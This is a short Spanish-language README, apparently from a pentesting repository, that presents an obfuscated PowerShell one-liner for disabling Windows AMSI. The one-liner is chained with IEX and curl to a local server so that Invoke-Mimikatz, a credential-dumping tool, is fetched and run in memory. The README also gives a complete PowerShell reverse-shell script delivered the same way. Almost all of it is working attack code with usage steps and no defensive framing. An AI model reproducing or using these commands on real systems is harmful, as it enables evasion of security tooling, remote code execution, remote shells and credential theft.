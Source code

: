 # Amsi Bypass Powershell #

```
$a = 'si'; $b = 'Am'; $Ref = [Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils' -f $b, $a)); $z = $Ref.GetField(('am{0}InitFailed' -f $a),'NonPublic,Static'); $z.SetValue($null,$true)
```

# Ejemeplo de uso:

Guardar en un archivo, este script de Mimikatz del este repo:
https://raw.githubusercontent.com/dievus/PowerShellForPentesters/main/Tools/Invoke-Mimikatz.ps1

Abres un servidor con Python o Apache y guardas el archivo con cualquier formato hasta en Webhost/Pastebin/Github etc, cualquier servidor con formato Raw

# Ejemplo:

```
$a = 'si'; $b = 'Am'; $Ref = [Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils' -f $b, $a)); $z = $Ref.GetField(('am{0}InitFailed' -f $a),'NonPublic,Static'); $z.SetValue($null,$true); IEX (curl http://192.168.0.7/mimiktz)
```

Con lo anterior Bypasseas amsi y haces una descarga del codigo del servidor y lo ejecutas en memoria

Tambien puedes guardar una reverse shell en el servidor

# Ejemplo de Powershell:

```
$client = New-Object System.Net.Sockets.TCPClient("ip",puerto);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Lo guardas en un archivo, abres el servidor 

```
$a = 'si'; $b = 'Am'; $Ref = [Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils' -f $b, $a)); $z = $Ref.GetField(('am{0}InitFailed' -f $a),'NonPublic,Static'); $z.SetValue($null,$true); IEX (curl http://192.168.0.7/reverse)
```

